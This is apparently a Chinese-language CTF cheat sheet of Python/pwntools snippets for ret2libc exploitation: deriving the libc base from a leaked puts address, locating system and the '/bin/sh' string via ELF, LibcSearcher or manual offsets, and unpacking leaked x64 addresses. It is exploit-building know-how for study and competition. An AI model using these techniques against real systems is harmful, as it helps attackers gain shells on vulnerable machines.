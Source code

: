 # libc 处理方式

## 1 next + libc.search
设置 address
```py
libc = ELF('./libc.so')
libc.address = puts_addr - libc.sym["puts"]
system = libc.sym["system"]
bin_sh = next(libc.search(b"/bin/sh"))
ret = 0x00004004c9
```

未设置 address
```py
libc = ELF("./libc-2.23.so")
offset = puts_addr - libc.sym["puts"]
system = libc.sym["system"] + offset
bin_sh = libc.search(b'/bin/sh').__next__() + offset
# bin_sh = next(libc.search(b"/bin/sh")) + offset
```
## 2 libsearcher

```py
from LibcSearcher import *
libc = LibcSearcher('puts', puts_addr)

offset = puts_addr - libc.dump('puts')
system = offset + libc.dump('system')
bin_sh = offset + libc.dump('str_bin_sh')
```

## 3 手动查找

https://libc.blukat.me/ 查一下 puts 9c0  查后三位就行
手动设置
```py
system_addr = 0x04f440
puts = 0x0809c0
str_bin_sh = 0x1b3e9a
base = addr - puts
```

# pack unpack

## x64
```py
# -- 1 --
puts_addr = io.recvuntil(b'\x7f')[-6:]
puts_addr = unpack(puts_addr.ljust(8, b'\x00'))  # 地址是6bytes, 补到8位unpack

# -- 2 --
libc.address = u64(s.recvuntil('\x7f')[-6:] + b'\x00\x00') - libc.sym['atoi']
```
